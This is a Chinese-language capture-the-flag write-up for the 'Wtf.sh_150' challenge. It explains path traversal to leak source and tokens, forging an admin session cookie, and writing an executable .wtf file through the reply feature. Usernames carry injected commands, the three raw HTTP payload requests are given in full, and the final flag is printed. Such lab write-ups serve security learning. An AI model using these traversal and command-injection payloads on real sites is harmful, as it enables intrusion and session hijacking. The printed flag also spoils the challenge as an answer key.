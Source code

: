 # Wtf.sh_150

## 思路分析

> 打开网站,是个论坛网站,但是网站文件后缀竟然是wtf,是用bash写的,真是第一次见.扫目录与查看源码无收获.先注册一个账号,点击别人已发布的文章,url是/post.wtf?post=K8laH,尝试post.wtf?post=../得到网站源码,进行分析.格式化源码,发现当cookie中的用户名是admin和cookie中的token是admin用户的token时是会得到flag.尝试post.wtf?post=../users会得到用户的token,找到admin的token,访问/profile.wtf?user=JcO27时修改cookie中的用户名和token,得到了部分flag.

> 继续分析代码,因为wtf不是常规的网页文件,故寻找解析wtf文件的代码,找到了include_page函数,能够解析并执行wtf文件,如果还能够上传wtf文件并执行的话,就可以达到控制服务器的目的.继续分析reply函数,这是评论功能的后台代码,这部分也是存在路径穿越的.这行代码把用户名写在了评论文件的内容中：echo "\${username}" > "${next_file}";如果用户名是一段可执行代码,而且写入的文件是wtf格式的,那么这个文件就能够执行我们想要的代码.上传的文件末尾需要添加%09字符,这是水平制表符,必须添加,不然后台会把我们的后门当做目录去解析.

> 分别注册\${find,/,-iname,get_flag2}与$/usr/bin/get_flag2用户名,然后去评论文章,抓包,url修改为/reply.wtf?post=../users_lookup/shell.wtf%09,访问/users_lookup/shell.wtf得到了另一部分flag.

## payload

```
GET /profile.wtf?user=jlvfK HTTP/1.1
Host: 61.147.171.105:62296
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=admin; TOKEN=uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==
Connection: close
```

```
POST /reply.wtf?post=../users_lookup/shell.wtf%09 HTTP/1.1
Host: 61.147.171.105:62296
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:62296
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/reply.wtf?post=K8laH
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=${find,/,-iname,get_flag2}; TOKEN=si7lLthLI0lJLIJg3Gb0YaojBIBuqwFphk5/Pl5QTLnk+cMa/iz/Ay0VxoKTuXbrvzKSbQ9HGAlFb8Kri3+J/A==
Connection: close

text=test&submit=
```

```
POST /reply.wtf?post=../users_lookup/shell.wtf%09 HTTP/1.1
Host: 61.147.171.105:62296
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:62296
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/reply.wtf?post=K8laH
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=$/usr/bin/get_flag2; TOKEN=zXVtEcLIl9h1FCd2AIYJLgJyhKDNahE86pyL7pqcI29SYeacgLUp7O1daT6XZVYSrh/vsV8m+d8ESwPSDM8a4Q==
Connection: close

text=test&submit=
```

## flag

> xctf{cb49256d1ab48803149e5ec49d3c29ca}